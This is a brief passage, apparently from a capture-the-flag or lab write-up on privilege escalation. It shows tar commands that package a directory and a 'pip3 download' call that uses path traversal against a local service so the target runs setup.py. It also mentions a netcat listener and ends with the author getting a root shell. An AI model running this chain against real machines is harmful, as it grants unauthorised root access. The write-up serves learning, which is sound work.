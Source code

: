 And finally:
```bash
/tmp/package $ cd ..
/tmp $ tar -czf package.tar.gz package/
```

Now, we can launch a `netcat` from the attack box and run the exploit:
```bash
$ /usr/bin/pip3 download http://127.0.0.1:3000/../../../../../../tmp/package.tar.gz
```

It will extract the archive, run `setup.py` and we have a root shell !
